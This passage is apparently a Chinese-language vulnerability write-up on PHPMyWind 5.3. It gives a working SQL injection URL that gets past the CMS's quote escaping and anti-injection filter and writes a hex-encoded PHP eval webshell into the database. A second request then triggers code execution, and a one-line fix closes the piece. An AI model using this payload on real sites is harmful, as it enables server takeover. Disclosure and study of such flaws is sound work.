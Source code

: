 
**0x02漏洞利用**

由于在这个cms里面存在全局的GPC过滤，所以我们不能使用单引号。这样会转义。因此我们在update的时候可以用十六进制的方法。

第一步我们构造

```
http://127.0.0.1/PHPMyWind_5.3/4g.php?m=show&cid=2&tbname=pmw_goods`  SET attrstr=0x6576616c28245f504f53545b27746f6d61746f275d29 where classid=12  or @`'` %23 and @`'`

```
这个cms有80sec的防注入，所以我们要绕过这个防注入。网上有详细的文章，这里就不复述了。


然后可以看到数据库里



![308065326](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-308065326.png)

这里已经被成功update进去一个一句话木马了。

第二步
访问
http://127.0.0.1/PHPMyWind_5.3/goodsshow.php?cid=12&tid=10&id=1


![2215906991](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-2215906991.png)

成功执行代码





**0x03漏洞修复**

初始化```$tanm```,不使用eval函数



